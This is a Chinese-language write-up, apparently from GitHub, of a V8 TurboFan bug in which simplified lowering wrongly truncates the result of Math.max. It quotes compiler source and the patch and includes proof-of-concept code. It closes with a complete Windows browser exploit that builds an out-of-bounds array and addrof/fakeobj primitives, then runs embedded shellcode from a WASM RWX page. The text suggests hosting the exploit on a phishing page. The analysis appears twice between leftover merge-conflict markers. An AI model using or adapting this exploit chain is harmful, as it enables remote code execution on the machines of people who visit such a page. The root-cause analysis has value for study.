





### poc:
```
function foo(b){
    let y = (new Date(42)).getMilliseconds();
    let x = -1;
    if(b) x = 0xFFFF_FFFF;
    let c = Math.max(0, x , -1);
	  return -1 < c;
}

console.log(foo(true));
console.log(foo(false));
for(i=0;i<0x10000;i++)
  foo(false);
console.log(foo(true));
```

### Root case：

先简单描述一下漏洞的发生：
当b是true时，x = 0xFFFF_FFFF；
在Math.max中，x的类型为kword64，此时他是一个无符号数，值为0xFFFF_FFFF，所以在max进行比较时自然是比0或-1大的，所以运算的结果将会返回0xFFFF_FFFF，但是在下面一行代码处：-1 < c，jit时这里会有一个将word64截断为int32的过程，此时0xFFFF被识别为有符号数为-1，所以变成了-1<-1,返回false。


接下来我们就详细来分析一下这个导致漏洞的截断是如何产生的：

首先Simplified lowering主要分为三个阶段：
```
- The truncation propagation phase (RunTruncationPropagationPhase)
    - 反向数据流分析，传播truncations，并设置restriction_type。

- The type propagation phase (RunTypePropagationPhase)
    - 正向数据流分析，根据feedback_type重新计算type信息。

- The lowering phase (Run, after calling the previous phases)
    - 降级nodes
    - 插入conversion nodes

```

```
void Run(SimplifiedLowering* lowering) {
    GenerateTraversal();
    RunPropagatePhase();
    RunRetypePhase();
    RunLowerPhase(lowering);
  }
```
对于这个漏洞来说主要要分析第三个阶段，也就是lower阶段，在该阶段主要会进行下面的出操作：
- 将节点本身lower到更具体的节点(通过DeferReplacement)
- 当该节点的的output representation与此输入的预期使用信息不匹配时，对节点进行转换(插入 ConvertInput)，比如对于一个representation是kSigned的node1，若其use节点node2会将其 truncation到kWord64，则将会插入ConvertInput函数对该节点进行转换。

我们这里的截断TruncateInt64Toint32就是通过插入ConvertInput来生成的

下面是Simplified lowering之前的ir图，和上面的图片比较可以很明显的看出NumberMax降低为了Int64LessThan+Select，SpeculativeNumberLessThan降低为了Int32LessThan。


我们这里重点分析插入ConvertInput的内容，这里简单总结一下调用链：

VisitNode->VisitBinop->ProcessInput->GetRepresentationFor
在GetRepresentationFor函数中触发漏洞代码添加TruncateInt64ToInt32()

具体代码：
<<<<<<< HEAD

```
      case IrOpcode::kSpeculativeNumberLessThan:
      case IrOpcode::kSpeculativeNumberLessThanOrEqual:
      case IrOpcode::kSpeculativeNumberEqual: {
        
        ........ 
        
        // Try to use type feedback.
        NumberOperationHint hint = NumberOperationHintOf(node->op());
        switch (hint) {
          case NumberOperationHint::kSigned32:
          case NumberOperationHint::kSignedSmall:
            if (propagate<T>()) {
              
              ......
              
            } else {
              DCHECK(lower<T>());
              Node* lhs = node->InputAt(0);
              Node* rhs = node->InputAt(1);
              if (IsNodeRepresentationTagged(lhs) &&
                  IsNodeRepresentationTagged(rhs)) {
                
                .....
                
              } else {
                VisitBinop<T>(node,
                              CheckedUseInfoAsWord32FromHint(
                                  hint, FeedbackSource(), kIdentifyZeros),
                              MachineRepresentation::kBit);
                ChangeToPureOp(node, Int32Op(node));
              }
            }
            return;
```
在VisitNode中对于kSpeculativeNumberLessThan节点我们会走到上面的代码处，VisitBinop去处理节点的左右input节点，ChangeToPureOp将节点降低为Int32LessThan。

我们接着来看VisitNode：
```
  template <Phase T>
  void VisitBinop(Node* node, UseInfo left_use, UseInfo right_use,
                  MachineRepresentation output,
                  Type restriction_type = Type::Any()) {
    DCHECK_EQ(2, node->op()->ValueInputCount());
    ProcessInput<T>(node, 0, left_use);
    ProcessInput<T>(node, 1, right_use);
    for (int i = 2; i < node->InputCount(); i++) {
      EnqueueInput<T>(node, i);
    }
    SetOutput<T>(node, output, restriction_type);
  }
```
这里他对左右input节点调用了ProcessInput，它是一个模板函数，根据不同的phase调用不同的实现，这里我们是lower阶段，我们去看他的实现：
```
template <>
void RepresentationSelector::ProcessInput<LOWER>(Node* node, int index,
                                                 UseInfo use) {
  DCHECK_IMPLIES(use.type_check() != TypeCheckKind::kNone,
                 !node->op()->HasProperty(Operator::kNoDeopt) &&
                     node->op()->EffectInputCount() > 0);
  ConvertInput(node, index, use);
}
```
可以看到他调用了ConvertInput来对节点进行转换：
```
void ConvertInput(Node* node, int index, UseInfo use,
                    Type input_type = Type::Invalid()) {
    // In the change phase, insert a change before the use if necessary.
    if (use.representation() == MachineRepresentation::kNone)
      return;  // No input requirement on the use.
    Node* input = node->InputAt(index);
    DCHECK_NOT_NULL(input);
    NodeInfo* input_info = GetInfo(input);
    MachineRepresentation input_rep = input_info->representation();
    if (input_rep != use.representation() ||
        use.type_check() != TypeCheckKind::kNone) {
      // Output representation doesn't match usage.
      TRACE("  change: #%d:%s(@%d #%d:%s) ", node->id(), node->op()->mnemonic(),
            index, input->id(), input->op()->mnemonic());
      TRACE("from %s to %s:%s\n",
            MachineReprToString(input_info->representation()),
            MachineReprToString(use.representation()),
            use.truncation().description());
      if (input_type.IsInvalid()) {
        input_type = TypeOf(input);
      }
      Node* n = changer_->GetRepresentationFor(input, input_rep, input_type,
                                               node, use);
      node->ReplaceInput(index, n);
    }
  }
```
这个结果我们可以通过添加--trace-representation这个flag来查看：
下面就是对SpeculativeNumberLessThan的两个输入节点#34和#81的转换结果：
```
visit #61: SpeculativeNumberLessThan
  change: #61:SpeculativeNumberLessThan(@0 #34:NumberConstant) from kRepTaggedSigned to kRepWord32:no-truncation (but identify zeros)
  change: #61:SpeculativeNumberLessThan(@1 #81:Select) from kRepWord64 to kRepWord32:no-truncation (but identify zeros)
```

我们重点来看实现转换的函数，这里也是漏洞产生的主要位置
```
      case IrOpcode::kNumberMax: {
        
        Type const lhs_type = TypeOf(node->InputAt(0));
        Type const rhs_type = TypeOf(node->InputAt(1));
       
        ......

        } else if (jsgraph_->machine()->Is64() &&
                   lhs_type.Is(type_cache_->kSafeInteger) &&
                   rhs_type.Is(type_cache_->kSafeInteger)) {
          VisitInt64Binop<T>(node);
          if (lower<T>()) {
            lowering->DoMax(node, lowering->machine()->Int64LessThan(),
                            MachineRepresentation::kWord64);
          }
        } else {
         
         .....
            
        }
        return;
      }
```
在分析转换实现之前，我们先回忆一下select节点的由来，在NumberMax节点的lower阶段，会通过DoMax来降低节点为Int64LessThan+Select，注意此时设置了MachineRepresentation::kWord64，我们继续回到节点转换，这里我们是满足output_rep == MachineRepresentation::kWord64这个判断的，并且此时的输出类型为Type::Unsigned32（上面的from kRepWord64 to kRepWord32中的word32），所以他就会添加TruncateInt64ToInt32()。

=======

```
      case IrOpcode::kSpeculativeNumberLessThan:
      case IrOpcode::kSpeculativeNumberLessThanOrEqual:
      case IrOpcode::kSpeculativeNumberEqual: {
        
        ........ 
        
        // Try to use type feedback.
        NumberOperationHint hint = NumberOperationHintOf(node->op());
        switch (hint) {
          case NumberOperationHint::kSigned32:
          case NumberOperationHint::kSignedSmall:
            if (propagate<T>()) {
              
              ......
              
            } else {
              DCHECK(lower<T>());
              Node* lhs = node->InputAt(0);
              Node* rhs = node->InputAt(1);
              if (IsNodeRepresentationTagged(lhs) &&
                  IsNodeRepresentationTagged(rhs)) {
                
                .....
                
              } else {
                VisitBinop<T>(node,
                              CheckedUseInfoAsWord32FromHint(
                                  hint, FeedbackSource(), kIdentifyZeros),
                              MachineRepresentation::kBit);
                ChangeToPureOp(node, Int32Op(node));
              }
            }
            return;
```
在VisitNode中对于kSpeculativeNumberLessThan节点我们会走到上面的代码处，VisitBinop去处理节点的左右input节点，ChangeToPureOp将节点降低为Int32LessThan。

我们接着来看VisitNode：
```
  template <Phase T>
  void VisitBinop(Node* node, UseInfo left_use, UseInfo right_use,
                  MachineRepresentation output,
                  Type restriction_type = Type::Any()) {
    DCHECK_EQ(2, node->op()->ValueInputCount());
    ProcessInput<T>(node, 0, left_use);
    ProcessInput<T>(node, 1, right_use);
    for (int i = 2; i < node->InputCount(); i++) {
      EnqueueInput<T>(node, i);
    }
    SetOutput<T>(node, output, restriction_type);
  }
```
这里他对左右input节点调用了ProcessInput，它是一个模板函数，根据不同的phase调用不同的实现，这里我们是lower阶段，我们去看他的实现：
```
template <>
void RepresentationSelector::ProcessInput<LOWER>(Node* node, int index,
                                                 UseInfo use) {
  DCHECK_IMPLIES(use.type_check() != TypeCheckKind::kNone,
                 !node->op()->HasProperty(Operator::kNoDeopt) &&
                     node->op()->EffectInputCount() > 0);
  ConvertInput(node, index, use);
}
```
可以看到他调用了ConvertInput来对节点进行转换：
```
void ConvertInput(Node* node, int index, UseInfo use,
                    Type input_type = Type::Invalid()) {
    // In the change phase, insert a change before the use if necessary.
    if (use.representation() == MachineRepresentation::kNone)
      return;  // No input requirement on the use.
    Node* input = node->InputAt(index);
    DCHECK_NOT_NULL(input);
    NodeInfo* input_info = GetInfo(input);
    MachineRepresentation input_rep = input_info->representation();
    if (input_rep != use.representation() ||
        use.type_check() != TypeCheckKind::kNone) {
      // Output representation doesn't match usage.
      TRACE("  change: #%d:%s(@%d #%d:%s) ", node->id(), node->op()->mnemonic(),
            index, input->id(), input->op()->mnemonic());
      TRACE("from %s to %s:%s\n",
            MachineReprToString(input_info->representation()),
            MachineReprToString(use.representation()),
            use.truncation().description());
      if (input_type.IsInvalid()) {
        input_type = TypeOf(input);
      }
      Node* n = changer_->GetRepresentationFor(input, input_rep, input_type,
                                               node, use);
      node->ReplaceInput(index, n);
    }
  }
```
这个结果我们可以通过添加--trace-representation这个flag来查看：
下面就是对SpeculativeNumberLessThan的两个输入节点#34和#81的转换结果：
```
visit #61: SpeculativeNumberLessThan
  change: #61:SpeculativeNumberLessThan(@0 #34:NumberConstant) from kRepTaggedSigned to kRepWord32:no-truncation (but identify zeros)
  change: #61:SpeculativeNumberLessThan(@1 #81:Select) from kRepWord64 to kRepWord32:no-truncation (but identify zeros)
```

我们重点来看实现转换的函数，这里也是漏洞产生的主要位置
```
      case IrOpcode::kNumberMax: {
        
        Type const lhs_type = TypeOf(node->InputAt(0));
        Type const rhs_type = TypeOf(node->InputAt(1));
       
        ......

        } else if (jsgraph_->machine()->Is64() &&
                   lhs_type.Is(type_cache_->kSafeInteger) &&
                   rhs_type.Is(type_cache_->kSafeInteger)) {
          VisitInt64Binop<T>(node);
          if (lower<T>()) {
            lowering->DoMax(node, lowering->machine()->Int64LessThan(),
                            MachineRepresentation::kWord64);
          }
        } else {
         
         .....
            
        }
        return;
      }
```
在分析转换实现之前，我们先回忆一下select节点的由来，在NumberMax节点的lower阶段，会通过DoMax来降低节点为Int64LessThan+Select，注意此时设置了MachineRepresentation::kWord64，我们继续回到节点转换，这里我们是满足output_rep == MachineRepresentation::kWord64这个判断的，并且此时的输出类型为Type::Unsigned32（上面的from kRepWord64 to kRepWord32中的word32），所以他就会添加TruncateInt64ToInt32()。

>>>>>>> fdcb715e80e593e0174f251e36a282de41c7428b
这里直接放了补丁代码方便比较：
```
@@ -949,10 +949,10 @@
     return node;
   } else if (output_rep == MachineRepresentation::kWord64) {
     if (output_type.Is(Type::Signed32()) ||
-        output_type.Is(Type::Unsigned32())) {
-      op = machine()->TruncateInt64ToInt32();
-    } else if (output_type.Is(cache_->kSafeInteger) &&
-               use_info.truncation().IsUsedAsWord32()) {
+        (output_type.Is(Type::Unsigned32()) &&
+         use_info.type_check() == TypeCheckKind::kNone) ||
+        (output_type.Is(cache_->kSafeInteger) &&
+         use_info.truncation().IsUsedAsWord32())) {
       op = machine()->TruncateInt64ToInt32();
     } else if (use_info.type_check() == TypeCheckKind::kSignedSmall ||
                use_info.type_check() == TypeCheckKind::kSigned32 ||
```

稍微修改下poc，通过使用arr.shift trick来构造oob array：
```
function foo(b) {
	let x = -1;
	if (b) x = 0xFFFF_FFFF;
	let c = Math.max(0, x) - 1;
	c = -c;
	c = Math.max(c, 0);
	c -= 1;
	var arr=new Array(c);
	arr.shift();
	var cor = [1.1,1.2,1.3];
	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(false);

var x = foo(true);
var arr = x[0];
var cor = x[1];
console.log(arr.length);
```
简单分析一下poc：

let c = Math.max(0, x) - 1;
ir图如下：

此处是在max结点和sub结点直接的截断触发了漏洞。
这将导致实际值为-2，而推测值为Range(-1,4294967294)；

c = 0-c; 实际值2，推测范围Range(-4294967294,1)
c = Math.max(c, 0);//实际值2，推测范围Range(0,1)
c -= 1;//实际值1，推断范围Range(-1，0）
ir图如下：

通过运算构造出oob所需要的格式这样就可以配合arr.shift();创建出长度为-1的arry，即可用它来oob。

我们来简单看一下arr.shift附近的ir图：

上图是load elimination阶段之前的图，此时由于不知道具体的length范围，会给它一个初始的大range。

load elimination阶段之后将length折叠为了常数-1

涉及到的代码


这样我们就得到了一个长度为-1（0xffffffff）的越界array，之后的利用就是常规的oob利用写法了

### 最终exp

windows版本，可在--no-sanbox下触发：

开启web服务，上线包含漏洞代码的html，即可通过该网站来进行钓鱼。

```
<script>
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
let buf2 = new ArrayBuffer(0x150);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
function foo(b) {
	let x = -1;
	if (b) x = 0xFFFF_FFFF;
	let c = Math.max(0, x) - 1;//实际值是-2，推测范围是(-1,4294967294)
	c = 0-c;//实际值2，推测范围(-4294967294,1)
	c = Math.max(c, 0);//实际值2，推测范围(0,1)
	c -= 1;//实际值1，推断范围（-1，0）
	var arr=new Array(c);
	arr.shift();
	var cor = [1.1,1.2,1.3];
	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(false);

var x = foo(true);
var arr = x[0];
var cor = x[1];

const idx = 6;
arr[idx+10] = 0x4242;

function addrof(k) {
    arr[idx+1] = k;
    return ftoi(cor[0]) & 0xffffffffn;
}

function fakeobj(k) {
    cor[0] = itof(k);
    return arr[idx+1];
}

var float_array_map = ftoi(cor[3]);

var arr2 = [itof(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    fake[0] = itof(BigInt(val));
}

function copy_shellcode(addr, shellcode) {
    let dataview = new DataView(buf2);
    let buf_addr = addrof(buf2);
    let backing_store_addr = buf_addr + 0x14n;
    arbwrite(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
        dataview.setUint32(4*i, shellcode[i], true);
    }
}

var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
//console.log("[+] Address of rwx page: " + rwx_page_addr.toString(16));

var shellcode = [3833809148,12642544,1363214336,1364348993,3526445142,1384859749,1384859744,1384859672,1921730592,3071232080,827148874,3224455369,2086747308,1092627458,1091422657,3991060737,1213284690,2334151307,21511234,2290125776,1207959552,1735704709,1355809096,1142442123,1226850443,1457770497,1103757128,1216885899,827184641,3224455369,3384885676,3238084877,4051034168,608961356,3510191368,1146673269,1227112587,1097256961,1145572491,1226588299,2336346113,21530628,1096303056,1515806296,1497454657,2202556993,1379999980,1096343807,2336774745,4283951378,1214119935,442,0,2374846464,257,2335291969,3590293359,2729832635,2797224278,4288527765,3296938197,2080783400,3774578698,1203438965,1785688595,2302761216,1674969050,778267745,6649957];
copy_shellcode(rwx_page_addr, shellcode);
f();
</script>
```


